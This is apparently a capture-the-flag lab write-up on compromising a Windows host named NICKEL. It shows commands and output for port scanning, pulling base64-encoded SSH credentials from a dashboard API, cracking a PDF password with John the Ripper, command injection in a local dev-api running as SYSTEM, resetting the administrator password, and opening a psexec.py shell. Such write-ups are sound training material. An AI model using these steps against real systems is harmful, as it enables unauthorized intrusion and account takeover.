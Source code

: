 - Running our nmap scan we have;

```bash
# Nmap 7.94SVN scan initiated Fri Aug  9 07:10:17 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.220.99
Warning: 192.168.220.99 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.220.99
Host is up (0.16s latency).
Not shown: 65287 closed tcp ports (conn-refused), 231 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2024-08-09T06:14:33+00:00
|_ssl-date: 2024-08-09T06:15:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-01T20:35:07
| Not valid after:  2025-01-31T20:35:07
| MD5:   7f74:ba8a:e678:ea4e:dd76:1c9e:788f:906d
|_SHA-1: bba7:61db:e4e5:2b29:7c06:9b41:113a:cd18:0f9c:7b88
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-09T06:14:33
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  9 07:15:47 2024 -- 1 IP address (1 host up) scanned in 330.21 seconds
```



- No anonymous access on the FTP port 21

```bash
❯ ftp 192.168.220.99
Connected to 192.168.220.99.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (192.168.220.99:sec-fortress): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```



- Navigating to port 80/HTTP we don't have anything useful, however checking port 8089 we have this page;


![image](https://github.com/user-attachments/assets/11ef110e-9928-483d-bd5b-bf08863e5012)



- Clicking on each of this options take time to load and for some reasons it is not even coming up, so i decided to view source code and discovered that another IP was been called on the endpoints, instead of our present target IP



```bash
❯ curl http://192.168.220.99:8089/
<h1>DevOps Dashboard</h1>
<hr>
<form action='http://169.254.127.78:33333/list-current-deployments' method='GET'>
<input type='submit' value='List Current Deployments'>
</form>
<br>
<form action='http://169.254.127.78:33333/list-running-procs' method='GET'>
<input type='submit' value='List Running Processes'>
</form>
<br>
<form action='http://169.254.127.78:33333/list-active-nodes' method='GET'>
<input type='submit' value='List Active Nodes'>
</form>
<hr>
```



- Decided to change it to our own IP in which port 33333/HTTP is currently opened also, The two endpoints hence `/list-running-procs` has the message "**Not Implemented**".



![image](https://github.com/user-attachments/assets/9b6ec01e-2834-469b-b7fd-6ed820e2be45)



> Seems like the above message means we have to use the `POST` request instead of `GET`, you can use `burpsuite` for this or `curl` using the `-X` parameter. However i will be using `burpsuite`



- I found hardcoded SSH credentials in response after changing request to `POST`



![image](https://github.com/user-attachments/assets/9e856ca9-0c88-49f6-bc6a-de76d50d47d0)



- Took me some time to figure out the password was encrypted with `base64` so we have to decode that also



```bash
❯ echo "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" | base64 -d
NowiseSloopTheory139
```



- Then we can now login via SSH with the credentials we have at hand `ariah:NowiseSloopTheory139`



```bash
❯ ssh ariah@192.168.220.99                          
ariah@192.168.220.99's password: 
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

ariah@NICKEL C:\Users\ariah>
```



- Navigating to `C:\ftp` i found a PDF file called `Infrastructure.pdf`, Then decided to transfer the file using the `scp` utility



```bash
❯ scp ariah@192.168.220.99:C:/ftp/Infrastructure.pdf ./
ariah@192.168.220.99's password: 
Infrastructure.pdf                                                                                                                                                                100%   45KB  59.4KB/s   00:00    

❯ ls
 Infrastructure.pdf   nmap.txt
```



- However this file is password encrypted so we have to decrypt it first



![image](https://github.com/user-attachments/assets/a154bee0-58ef-4834-b6a7-94a33e0c900f)





- However this shouldn't be an hassle, we can crack this using `JtR`



```bash
❯ pdf2john Infrastructure.pdf > hash.txt
                                                                                                                                                                                                                    
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ariah4168        (Infrastructure.pdf)     
1g 0:00:02:42 DONE (2024-08-09 10:10) 0.006164g/s 61666p/s 61666c/s 61666C/s arial<3..ariadne01
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed. 
```



- Opening the PDF and checking the content we have several endpoints



![image](https://github.com/user-attachments/assets/94b577aa-f61a-4b5d-95da-9b352adb07af)



- Checking the endpoints locally, the `http://nickel/` endpoint looks interesting the most, so i checked it first and the body contains a message saying "`dev-api`"



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17
                                               
        <pre></pre>
</body></html>
```



- Adding the "`dev-api`" as a parameter to the legit URL i have this error like a normal CMD error, Meaning it executes whatever commands we add there

```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?dev-api
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>
Error while executing 'dev-api'

The term 'dev-api' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is c
orrect and try again.</pre>
</body></html>
```



- Decided to do this with the command `whoami`, and we have a response in return as the user administrator



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?whoami
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>nt authority\system
</pre>
</body></html>
```



- We can then change the administrator password and login as the administrator user with `psexec.py`



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?net%20user%20administrator%20password
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>The command completed successfully.

</pre>
</body></html>
ariah@NICKEL c:\ftp>

```



```bash
❯ psexec.py administrator@192.168.160.99
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 192.168.160.99.....
[*] Found writable share ADMIN$
[*] Uploading file YbakDYkh.exe
[*] Opening SVCManager on 192.168.160.99.....
[*] Creating service SBOk on 192.168.160.99.....
[*] Starting service SBOk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

